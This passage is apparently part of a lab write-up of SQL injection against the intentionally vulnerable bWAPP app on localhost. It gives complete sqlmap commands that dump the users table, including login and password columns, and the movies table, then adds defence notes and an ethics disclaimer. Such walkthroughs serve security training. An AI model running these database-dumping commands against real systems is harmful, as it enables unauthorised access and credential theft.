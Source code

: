 ### step5: now see the content of the columns
```bash
sqlmap -u "http://localhost:8081/sqli_1.php?title=iron+man+&action=search" --cookie="PHPSESSID=360f8c2qsn63ogbm5s321qnii4; security_level=0" --batch -D bWAPP -T users -C admin,email,login,password --dump
```
- -C -flag to pull back the columns you want
- --dump -a flag to dump all the columns stated by the flag -C
 
<img width="1920" height="947" alt="image" src="https://github.com/user-attachments/assets/8daab99c-b152-493a-be8d-172e1aa1c90e" />
The command pulled back two users 

- A.I.M. and password bug
- bee    and password bug
---

## step6: now enumerate the movies table.
```bash 
sqlmap -u "http://localhost:8081/sqli_1.php?title=iron+man+&action=search" --cookie="PHPSESSID=360f8c2qsn63ogbm5s321qnii4; security_level=0" --batch -D bWAPP -T movies --dump 
```
<img width="1920" height="947" alt="image" src="https://github.com/user-attachments/assets/cf8d97f5-939e-4132-b690-44c864590c5f" />
The command returns back all the movies in the database

---

- The website is vulnerable to injection since we managed to dump all the movies and  the users in the database
- The databe mysql can also be exploited in the same way
- The sql injection can be prevented by sanitizing all the user input.
- This was done ethicaly
- BY Denis
© Copyright & Licensing
© 2025 Denis. All Rights Reserved.
---
## 📚 References & Further Reading
- [OWASP – Legal Issues in Penetration Testing](https://owasp.org/www-community/Legal_Issues_in_Penetration_Testing)  
- [EC-Council – What is Ethical Hacking?](https://www.eccouncil.org/what-is-ethical-hacking/)  
- [HackerOne – Hacker Policy & Guidelines](https://www.hackerone.com/disclosure-guidelines)  
- [OWASP Top 10](https://owasp.org/www-project-top-ten/) – The most critical web application security risks  
- [bWAPP Official Site](http://itsecgames.com/) – Official download and documentation


This report and its contents are provided strictly for educational and ethical penetration testing purposes conducted in authorized lab environments only.

You may:

Use, share, and modify this document for personal learning.
Include it in your portfolio/GitHub with attribution.
You may not:

